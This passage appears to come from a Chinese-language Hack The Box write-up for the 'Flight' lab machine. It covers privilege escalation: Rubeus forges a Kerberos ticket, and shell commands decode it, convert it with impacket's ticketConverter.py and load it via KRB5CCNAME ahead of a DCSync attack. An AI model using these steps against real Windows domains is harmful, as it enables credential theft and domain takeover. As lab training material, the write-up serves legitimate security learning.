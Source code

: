 # 提权

使用Rubeus伪造票据

![image-20250507165405625](./Flight-Windows_active/image-20250507165405625.png)

将票据解码后导入到攻击机，然后进行Dcsync攻击

```
base64 -d machine.kirbi.b64 > machine.kirbi

python3 /home/kali/windows-tools/impacket-0.12.0/examples/ticketConverter.py machine.kirbi machine.ccache

export KRB5CCNAME=/home/kali/Hackthebox/Flight/machine.ccache

```

![image-20250507163352399](./Flight-Windows_active/image-20250507163352399.png)
